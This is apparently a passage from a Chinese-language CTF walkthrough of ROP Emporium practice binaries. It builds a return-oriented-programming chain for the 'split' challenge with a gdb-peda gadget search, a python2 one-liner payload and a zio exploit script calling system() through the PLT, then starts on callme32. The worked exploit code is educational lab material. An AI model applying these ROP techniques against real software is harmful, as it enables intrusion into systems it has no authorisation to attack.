 我们先找到需要的 gadgets：
```
gdb-peda$ ropsearch "pop rdi; ret"
Searching for ROP gadget: 'pop rdi; ret' in: binary ranges
0x00400883 : (b'5fc3')  pop rdi; ret
```

下面是 payload：
```
$ python2 -c "print 'A'*40 + '\x83\x08\x40\x00\x00\x00\x00\x00' + '\x60\x10\x60\x00\x00\x00\x00\x00' + '\x10\x08\x40\x00\x00\x00\x00\x00'" | ./split 
...
> ROPE{a_placeholder_32byte_flag!}
```

那我们是否还可以用前面那种方法调用 `system()` 的 plt 地址 `0x4005e0` 呢：
```
gdb-peda$ disassemble system
Dump of assembler code for function system:
   0x00007ffff7a63010 <+0>:     test   rdi,rdi
   0x00007ffff7a63013 <+3>:     je     0x7ffff7a63020 <system+16>
   0x00007ffff7a63015 <+5>:     jmp    0x7ffff7a62a70 <do_system>
   0x00007ffff7a6301a <+10>:    nop    WORD PTR [rax+rax*1+0x0]
   0x00007ffff7a63020 <+16>:    lea    rdi,[rip+0x138fd6]        # 0x7ffff7b9bffd
   0x00007ffff7a63027 <+23>:    sub    rsp,0x8
   0x00007ffff7a6302b <+27>:    call   0x7ffff7a62a70 <do_system>
   0x00007ffff7a63030 <+32>:    test   eax,eax
   0x00007ffff7a63032 <+34>:    sete   al
   0x00007ffff7a63035 <+37>:    add    rsp,0x8
   0x00007ffff7a63039 <+41>:    movzx  eax,al
   0x00007ffff7a6303c <+44>:    ret    
End of assembler dump.
```
依然可以，因为参数的传递没有用到栈，我们只需把地址直接更改就可以了：
```python
from zio import *

payload  = ""
payload += "A"*40
payload += l64(0x00400883)
payload += l64(0x00601060)
payload += l64(0x4005e0)

io = zio('./split')
io.writeline(payload)
io.read()
```

#### callme32
这里我们要接触真正的 plt 了，根据题目提示，callme32 从共享库 libcallme32.so 中导入三个特殊的函数：
```
$ rabin2 -i callme32 | grep callme
ordinal=004 plt=0x080485b0 bind=GLOBAL type=FUNC name=callme_three
ordinal=005 plt=0x080485c0 bind=GLOBAL type=FUNC name=callme_one
ordinal=012 plt=0x08048620 bind=GLOBAL type=FUNC name=callme_two
```
